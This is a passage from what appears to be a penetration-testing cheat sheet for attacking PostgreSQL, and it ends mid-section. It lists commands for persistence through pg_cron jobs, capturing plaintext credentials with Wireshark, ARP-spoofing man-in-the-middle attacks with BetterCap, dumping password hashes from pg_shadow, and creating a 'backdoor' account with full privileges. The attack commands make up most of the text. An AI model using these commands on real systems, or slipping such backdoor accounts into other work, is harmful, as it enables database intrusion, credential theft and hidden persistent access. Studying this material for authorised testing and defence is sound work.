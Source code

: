     ```bash
    CREATE EXTENSION pg_cron;
    SELECT cron.schedule('*/5 * * * *', 'SELECT my_function()');
    ```
* **Description:** Schedules a job to run periodically, which could be used to maintain persistence within the database.

### Credential Harvesting

#### Packet Capture

*   **Tool:** \[\[Wireshark]]

    ```bash
    wireshark -i <interface> -f "tcp port 5432"
    ```
* **Description:** Capture traffic and extract plaintext credentials.

#### Man-in-the-Middle (MITM) Attack

*   **Tool:** \[\[BetterCap Cheat Sheet]]

    ```bash
    bettercap -iface <interface> -T <target_ip> --proxy
    ```
* **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.

#### Dumping Password Hashes

*   **Tool:** \[\[PSQL]]

    ```bash
    SELECT usename, passwd FROM pg_shadow;
    ```
* **Description:** Retrieves username and password hashes from the PostgreSQL shadow table, which can be cracked offline.

### Privilege Escalation

#### Create Admin Account

*   **Tool:** \[\[PSQL]]

    ```bash
    CREATE USER backdoor WITH PASSWORD 'backdoor_password';
    GRANT ALL PRIVILEGES ON DATABASE <database_name> TO backdoor;
    ```
*
  * **Description:** Creates a new user with full privileges that can be used to maintain access to the database.

#### Manipulate Existing User Account

*   **Tool:** \[\[PSQL]]

